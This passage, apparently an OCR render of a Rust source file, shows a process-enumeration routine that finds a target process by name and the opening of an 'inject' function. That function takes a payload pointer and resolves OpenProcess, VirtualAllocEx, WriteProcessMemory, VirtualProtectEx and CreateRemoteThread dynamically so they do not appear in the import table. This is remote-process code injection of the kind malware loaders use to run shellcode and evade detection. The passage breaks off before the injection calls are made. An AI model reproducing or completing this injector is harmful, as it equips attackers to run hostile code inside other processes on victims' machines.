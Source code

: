 ```rust
            ));
        }

        loop {
            cur_process_name = std::str::from_utf8(&pe32.szExeFile)
                .unwrap()
                .trim_matches(char::from(0));

            if cur_process_name.to_lowercase() == target_process_name.to_lowercase() {
                println!("Find {target_process_name} PID: {}", pe32.th32ProcessID);
                if close_handle(handle_procsnap).as_bool() == false {
                    return Err(Error::new(HRESULT(-1), HSTRING::from("CloseHandle Error")));
                }
                return Ok(pe32.th32ProcessID);
            }
            pe32.szExeFile = [0; 260];

            /* Process32Next */
            if process32_next(handle_procsnap, &mut pe32) == false {
                if close_handle(handle_procsnap).as_bool() == false {
                    return Err(Error::new(HRESULT(-1), HSTRING::from("CloseHandle Error")));
                }
                break;
            }
        }
    }
    Ok(0)
}

fn inject(pid: u32, payload_ptr: *const c_void, payload_len: usize) -> Result<(), Error> {
    let lp_number_of_bytes_written: *mut usize = std::ptr::null_mut();

    let _lp_thread_id: *mut u32;

    let _lp_parameter: *const c_void;

    let mut old_protect: PAGE_PROTECTION_FLAGS = PAGE_PROTECTION_FLAGS(0);

    let virtual_alloc_ex: VirtualAlloExFunc;
    let write_process_memory: WriteProcessMemoryFunc;
    let virtual_protect_ex: VirtualProtectExFunc;
    let create_remote_thread: CreateRemoteThreadFunc;

    let close_handle: CloseHandleFunc;

    unsafe {
        let kernel32_module_handle: HMODULE =
            GetModuleHandleA(PCSTR::from_raw("kernel32.dll\0".as_ptr()))?;

        let open_process: OpenProcessFunc =
            transmute(resolve_api(kernel32_module_handle, "OpenProcess\0")?);
        virtual_alloc_ex = transmute(resolve_api(kernel32_module_handle, "VirtualAllocEx\0")?);

        write_process_memory =
            transmute(resolve_api(kernel32_module_handle, "WriteProcessMemory\0")?);

        virtual_protect_ex = transmute(resolve_api(kernel32_module_handle, "VirtualProtectEx\0")?);
        create_remote_thread =
            transmute(resolve_api(kernel32_module_handle, "CreateRemoteThread\0")?);

        close_handle = transmute(resolve_api(kernel32_module_handle, "CloseHandle\0")?);

        /* OpenProcess */
```